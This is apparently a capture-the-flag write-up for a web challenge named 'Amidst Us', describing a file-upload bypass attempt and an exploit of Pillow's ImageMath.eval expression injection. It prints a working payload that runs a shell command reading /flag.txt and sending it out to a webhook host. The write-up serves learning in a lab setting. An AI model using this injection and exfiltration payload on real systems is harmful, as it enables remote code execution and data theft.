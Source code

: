 # Amidst Us

We start off with a weird page where we can select a color that does not seem to do anything:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

When clicking in the spaceship at the center of the website we can click on it and upload a file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If i upload a php reverseshell.php i get blocked but if i submit a reverseshell.php.jpg it seems to send at least a request:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

But i did not manage to do anything with that so i came back and tried to go slower:

I just go and look at how the app reacts when i upload a normal hackergobrrr.png image:

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i went and looked at how the image was treated since there was some sort of b64 string directly related to it and saw this:



and when i googled what this was i saw the first link that seemed interesting:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and indeed we have this function:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after googling around this exploit i found this:

{% embed url="https://github.com/advisories/GHSA-8vj2-vxx3-667w" %}

`PIL.ImageMath.eval` in Pillow before 9.0.0 allows evaluation of arbitrary expressions, such as ones that use the Python exec method `ImageMath.eval("exec(exit())")`.

so we need to take that and craft something that would lead to RCE or file reading:

```
ImageMath.eval("__import__('os').system('wget https://webhook.site/aa31223b-35e4-4679-aa22-8ea194c82870?flag=$(cat /flag.txt)')")
```

i put my payload in the eval function so everyone can see how the imagemath would handle it, so here we import os and send a request to a webhook server that i own and append the flag to the request so we can exfiltrate it:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I replace one of the 3 values with my payload and hit send and look at my webhook:

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it's flagged&#x20;
